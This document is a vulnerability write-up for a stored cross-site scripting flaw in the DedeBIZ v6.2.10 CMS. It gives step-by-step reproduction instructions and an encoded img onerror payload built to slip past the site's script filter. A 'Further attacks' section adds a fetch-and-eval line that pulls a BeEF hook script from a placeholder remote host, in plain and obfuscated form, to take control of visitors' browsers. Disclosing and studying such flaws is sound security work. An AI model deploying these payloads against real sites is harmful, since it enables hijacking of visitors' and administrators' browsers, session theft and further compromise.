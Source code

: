 # DedeBIZ v6.2.10 XSS injection

XSS injection vulnerability exists in dedebiz v6.2.10，it can cause CSRF and other serious attacks.

offcial website: https://www.dedebiz.com/

version:v6.2.10

type：Stored XSS



### Testing

1.Install and set up the website

2.Login background management interface `/admin`，go to System Settings --> Member Settings --> Enable member function

![image-20230726133838369](https://s2.loli.net/2023/07/26/RzIlDNgAqir9eCZ.png)

3.Common functions --> Website column management --> Add column

For example, add a column named "xss_test" here

![image-20230726134444718](https://s2.loli.net/2023/07/26/jGzK9UmNcEBs6Yt.png)

4.Log in to the homepage of the website and register as a member. At this time, members need email verification

For convenience, using the administrator account to fill in the user mailbox and make the user 'abc123' a normal user

![image-20230726134828151](https://s2.loli.net/2023/07/26/OjDeWKX8iJZLtMx.png)

![image-20230726134919228](https://s2.loli.net/2023/07/26/QfFOBaZwNUuX1yG.png)

5.Log in to user abc123, enter document management, and publish an article

![image-20230726135207297](https://s2.loli.net/2023/07/26/klSO6H8LdREitj2.png)



6.First publish an article containing normal information, indicating that the publication was successful,

and then modify the article

notice the point:`/user/article_edit.php?channelid=1&aid=3`

Click here to put the edit box into source mode

![image-20230726140446653](https://s2.loli.net/2023/07/26/EZKHz5bUo4PsAWd.png)

After testing, the system will filter elements such as script, style, and so on. Here, the oneeror attribute of the img tag is used to attack successfully

POC：

You can use `eval()` to execute js code, or you can rewrite the page to write js code directly using `document.write()`

```html
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))">
```

![image-20230726141035301](https://s2.loli.net/2023/07/26/o7edu5iqDhcRNGU.png)

7.At this time, the article is in the state to be reviewed, enter the administrator background, preview the article, you can still find that the malicious code is executed

If the article is approved, then other users or visitors visit the article, and the malicious code inside the article is automatically executed

![image-20230726141238351](https://s2.loli.net/2023/07/26/9vQlbETydU1mjWf.png)



### Further attacks

With the BeEF tool, the harm is further amplified

Construct POC to import remote js:

```js
fetch('http://xx.xx.xx.xx:3000/hook.js').then(response => response.text()).then(text => eval(text))

<img src="x" onerror="eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,120,120,46,120,120,46,120,120,46,120,120,58,51,48,48,48,47,104,111,111,107,46,106,115,39,41,46,116,104,101,110,40,114,101,115,112,111,110,115,101,32,61,62,32,114,101,115,112,111,110,115,101,46,116,101,120,116,40,41,41,46,116,104,101,110,40,116,101,120,116,32,61,62,32,101,118,97,108,40,116,101,120,116,41,41))">
```

According to the previous description, modify and browse the article, you can see that in the beef administration page, a host browser has been online

![image-20230726142449891](https://s2.loli.net/2023/07/26/WmgNKiMSaBJT7IZ.png)

The modules that come with beef can be used to perform a more damaging attack

(Some may be outdated or obsolete)

![image-20230726143115460](https://s2.loli.net/2023/07/26/5mrR4YsUwvhHN2T.png)
